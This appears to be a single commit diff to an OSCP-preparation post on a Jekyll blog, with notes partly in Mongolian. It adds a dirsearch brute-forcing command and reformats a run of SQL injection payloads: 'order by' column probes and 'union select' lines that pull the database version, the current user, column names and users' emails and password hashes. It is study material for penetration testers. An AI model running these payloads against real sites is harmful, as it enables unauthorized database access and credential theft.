

Before and after one commit to fg0x0/fg0x0.github.io, a Jekyll site: the page built from _posts/2022-01-25-OSCP-Preparation-All-The-Things.md, in a window 1280 px wide and 900 px high, scrolled down 644 px. Shown: the whole window, without its empty margins (278-918 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
oscp-prep-4

````diff
--- a/_posts/2022-01-25-OSCP-Preparation-All-The-Things.md
+++ b/_posts/2022-01-25-OSCP-Preparation-All-The-Things.md
@@ -18,6 +18,9 @@
 <br>
 ##### Directory Bruteforcing
 <br>
+```
+python3 dirsearch.py -u http://example.com
+```
 ##### Nikto
 
 ```
@@ -37,7 +40,8 @@
 ' order by 7 --
 ' order by 8 --
 ' order by 9 --
-' union select 1,2,3,4,5,6,7,8 -- - ( Хэрвээ 4-р хэрэглэгчээр нэвтрэх юм бол )
+' union select 1,2,3,4,5,6,7,8 -- -
+( Хэрвээ 4-р хэрэглэгчээр нэвтрэх юм бол )
 ' union select 1,2,3,@@version,5,6,7,8 -- -
 ' union select 1,2,3,user(),5,6,7,8 -- -
 
@@ -45,9 +49,11 @@
 
 ' union select 1,2,3,group_concat(column_name),5,6,7,8 from information_schema,columns where table_name='users'-- -
 
-' union select 1,2,3,column_name,5,6,7,8 from information_schema,columns where table_name='users'-- - ( Group-лээд гаргаж ирнэ )
+' union select 1,2,3,column_name,5,6,7,8 from information_schema,columns where table_name='users'-- -
+( Group-лээд гаргаж ирнэ )
 
-' union select 1,2,3,group_concat(user_id,0x3a,first_name,0x3a,last_name,0x3a,email,0x3a, pass,0x3a,user_level),5,6,7,8 from users-- - ( table бүрийн урд хэсэгт 0x3a бичиж өгнө )
+' union select 1,2,3,group_concat(user_id,0x3a,first_name,0x3a,last_name,0x3a,email,0x3a, pass,0x3a,user_level),5,6,7,8 from users-- -
+( table бүрийн урд хэсэгт 0x3a бичиж өгнө )
 
 File унших ( Read File )
 
````
